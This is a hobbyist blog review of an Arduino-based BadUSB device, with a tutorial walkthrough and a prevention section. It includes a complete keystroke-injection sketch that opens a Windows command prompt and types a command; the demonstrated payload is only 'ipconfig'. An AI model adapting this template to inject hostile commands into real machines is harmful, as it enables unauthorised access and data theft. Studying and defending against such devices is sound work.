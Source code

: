 ```yaml
---
layout: post
permalink: /posts/hacking-tools/hardware/badusb
title: "Des's review: BadUSB - an Arduino based keystroke"
date: 2020-08-15 21:46
tags: review badusb arduino
description: "Badusb is a dangerous USB that allows attackers to inject malicious command-line either locally or remotely."
---
```


## Introduction

Badusb is a dangerous USB that allows attackers to inject malicious command-line either locally or remotely. With this Badusb device, the attacker is able to steal sensitive information, download files and even destroy your computer. In addition, this tool works on Windows, Linux, and macOS which made almost all the computer/IoT devices vulnerable to this attack.

Recently, I brought a $6 Badusb (Built with Arduino micro) from China.

![badusb](/assets/images/hacking-tools/hardware/2020-08-15-badusb/1.jpg)

Of course, they usually came with a different variation, some contain micro SD card slot, some with WiFi-module (ESP-12E/F) and even a combination of two.

![variation](/assets/images/hacking-tools/hardware/2020-08-15-badusb/2.jpg)

The main microcontroller used for this USB is usually labeled with ATmega32U4. This microcontroller can be found on Arduino Micro and Arduino Leonardo. The reason is, [the controller supports the keyboard function](https://www.arduino.cc/reference/en/language/functions/usb/keyboard/) while the conventional ATmega328 (Arduino UNO) does not support the function.

In this article, I'm going to perform a simple command-line injection.

## Installation

The tool that you required before the attack:

Software:<br>
1. [Arduino IDE](https://www.arduino.cc/en/main/software)
1. Window 10 (as the victim)

Hardware:<br>
1. Badusb (Any Badusb with ATmega32u4)

After acquiring all the necessary tools, launch your Arduino IDE program. The IDE supports C/C++ but with a small twist but I'm not going to cover it. As long as you are good at C/C++, it should be a piece of cake. For your information, the two functions, **setup()** and **loop()** are the backbones in coding an Arduino device such that,

```c++
void setup()
{
  //The function only run once
}

void loop()
{
  //The function is a loop similar to while(1)
}
```

The **setup()** function only runs once while the **loop()** function executes infinitely, just like **while(1)**. Usually, we initialize all the parameters in setup() function e.g calibrating a temperature sensor. On the other hand, we used loop() function to collect the data e.g measure the temperature. However, this is not the case for this scenario as we are going to use the microcontroller to interact with the software (Executing command line) instead of hardware. We only need to execute the script once.

That's all for the short briefing on the Arduino programming. Next, copy the following code and compile it (The compile button is located at the top left)

```c++
#include <Keyboard.h>

void press_enter()
{
  Keyboard.press(KEY_RETURN); //Press enter key
  Keyboard.release(KEY_RETURN); //Release enter key
  delay(500);
}

void setup()
{
  //Nothing...
}

void loop()
{
  Keyboard.press(KEY_LEFT_GUI); //Press windows key
  delay(500);
  Keyboard.press('r'); //Press 'r' key
  Keyboard.releaseAll(); // Release to execute "wins + r", which is run.
  delay(500);
  Keyboard.print("cmd"); //Type 'cmd'
  press_enter();
  Keyboard.print("ipconfig"); // Payload
  press_enter();
  while(1); // Important! It stops loop execution.
}
```

Check the serial com port of the device.

![device](/assets/images/hacking-tools/hardware/2020-08-15-badusb/3.png)

I got mine on COM 8. Set up the device (Usually a micro) and COM port on the Arduino IDE using the tool tab.

![ide](/assets/images/hacking-tools/hardware/2020-08-15-badusb/4.png)

After that, upload the program into the device and you should see the effect.

![the gif](/assets/images/hacking-tools/hardware/2020-08-15-badusb/5.gif)

## Limitation

The problem with the Arduino based Badusb is the system must have an Arduino driver installed which made the attack less flexible.

## Prevention

Rest assured, there is a way to prevent the BadUSB attack. Year and year, the researcher named dave has published a paper on how to prevent the BadUSB attack on the Linux system but it is best for you to check [the post](https://davejingtian.org/2015/12/03/defending-against-malicious-usb-firmware-with-goodusb/) and [the github](https://github.com/daveti/GoodUSB/tree/master/kernel).

As for windows users, the best prevention is to [set up policy](https://heimdalsecurity.com/blog/badusb-exploit-vulnerability-fix/) while plug in a new USB. Of course, this method is quite troublesome in the future when you wanted to install a new HID or network driver. At least it saves you from the attack.

## Des's review

### The pro
1. Portable and affordable
1. Easy to code with since it working with Arduino IDE
1. Performing remote keystroke logging providing WiFi SoC available on the badusb

### The con
1. The driver is needed to perform the attack
2. Easily spotted by the victim compared to the backdoor program
3. Close-quarter attack where attacker have to plug-in the USB

**Des's score: 3/5 (A good piece of hardware but poor flexibility)**

## Conclusion

That's all for the Badusb introduction tool. For the next coming post, we will discuss more on remote Badusb attack.
